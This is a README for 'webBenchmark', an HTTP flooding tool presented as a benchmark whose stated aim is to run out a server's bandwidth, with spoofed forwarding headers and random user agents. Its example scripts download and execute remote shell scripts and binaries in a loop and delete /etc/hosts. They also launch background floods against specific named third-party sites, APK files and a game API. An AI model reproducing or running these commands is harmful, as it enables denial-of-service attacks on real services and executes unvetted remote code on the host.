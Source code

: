 # webBenchmark
http benchmark tool to ran out your server bandwidth.
- random User-Agent on every Request
- customizable Referer Url,
- concurrent routines as you wish, depends on you server performance.
- add http post mode
- specify target ip, or resolved by system dns.
- randomly X-Forwarded-For and X-Real-IP (default on).

# Todo 
- automatically tune concurrent routines to gain maximum performance. 
- randomly target ip.
- support NOT standard port in address with specify target ip.

# Usage: 
    webBenchmark -c [COUNT] -s [URL] -r [REFERER]
    -c int
          concurrent routines for download (default 16)
    -r string
          referer url
    -s string
          target url (default "https://baidu.com")
    -i string
          customize ip
    -f string
          randomized X-Forwarded-For and X-Real-IP address
    -p string
          post content


# LINUX:
    wget https://github.com/maintell/webBenchmark/releases/download/0.3/webBenchmark_linux_x64
    chmod +x webBenchmark_linux_x64
    ./webBenchmark_linux_x64 -c 32 -s https://target.url

## advanced example
    # send request to 1.1.1.1 for https://target.url with 32 concurrent threads 
    # and refer is https://refer.url
    ./webBenchmark_linux_x64 -c 32 -s https://target.url -r https://refer.url -i 1.1.1.1
    
## example
    #!/bin/bash
    yum install psmisc -y
    sleep 5s
    apt-get install psmisc -y
    sleep 5s
    rm -rf webBenchmark_linux_x64
    curl -O http://storage.googleapis.com/zongcai/webBenchmark_linux_x64
    chmod +x webBenchmark_linux_x64
    sleep 2s
    curl -O http://storage.googleapis.com/zongcai/jh.sh
    curl -O http://storage.googleapis.com/zongcai/hosts
    chmod +x jh.sh
    chmod +x hosts
    sh jh.sh
    sh hosts
    while true
    do
    sleep 600s
    killall -9 webBenchmark_linux_x64
    sleep 3s
    rm -rf jh.sh
    rm -rf hosts
    rm -rf /etc/hosts
    sleep 5s
    curl -O http://storage.googleapis.com/zongcai/jh.sh
    curl -O http://storage.googleapis.com/zongcai/hosts
    chmod +x jh.sh
    chmod +x hosts
    sh jh.sh
    sh hosts
    done


    #!/bin/bash
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211218/%E6%9F%91%E6%A9%98%E3%90%85%E7%9B%B4%E6%92%AD_157590.apk /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211216/鏌戞銗呯洿鎾璤236864.apk /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/璐靛銗呯洿鎾璤07443.apk /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/濂剁硸銗呯洿鎾璤07468.apk /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 12 -s http://all-live.secutre2storeapple.necxs.com/20211217/濂剁硸銗呯洿鎾璤07468.apk /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner01.jpg /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner01.jpg /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://gj.app -c 64 -s http://gjt.lixianghaodian.com/3/images/banner03.jpg /dev/null &
    setsid ./webBenchmark_linux_x64 -r http://jg.37gowan.com -c 3 -s http://api.sooyooj.com/index/game/info -p token= -p uid= -p gameid=146 -p channelid=5221 /dev/null &
    exit 0



